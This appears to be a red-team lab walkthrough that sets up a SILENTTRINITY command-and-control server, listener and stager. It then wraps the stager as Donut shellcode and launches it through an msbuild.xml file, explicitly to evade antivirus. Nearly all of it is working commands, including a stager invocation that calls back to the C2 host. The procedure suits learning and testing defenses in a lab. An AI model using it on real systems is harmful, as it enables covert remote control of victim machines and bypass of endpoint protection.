 We will use DLLDiligence and Donut shellcode to load SilentTrinity.

To start teamserver:

```
cd /testing/SILENTTRINITY/
tmux
pipenv shell
python3 teamserver.py 192.168.254.136 test1234
```

Create a new tab using `CTRL + b > "`

To start the client:
```
pipenv shell
python3 st.py wss://thewover:test1234@192.168.254.136:5000
```

Start a listener and generate an exe stager:

```
listeners
use http
start
sessions
register
```

Copy the GUID and PSK. Those go into the stager.exe in the following format.
```
.\stager.exe 7bad81ea-d55e-465e-943c-fca48a762f1b 209a0bded4903236f74e94c5c3d823e0abee462c7bc1a5c237444a8ca52fced6 http://192.168.254.136
```

First, COPY the SilentTrinity stager EXE to the Desktop to try to run it. To show that it would normally get picked up by AV. Then use the DueDLLigence DLL to load it via Donut Shellcode.

```
.\donut.exe -f .\stager.exe -p "6cfd0ebe-8983-43d8-9fba-65666767f0eb d49759fdf977093c86fddb30ead4a8be9bed76de49339b11288422e53f3c0d53 http://192.168.254.136"
```

Copy the shellcode to clipboard as base64. Drop into the msbuild.xml file.

```powershell
$filename = "C:\\..."
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename)) | clip
```

Run the msbuild file with:
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe .\msbuild.xml
```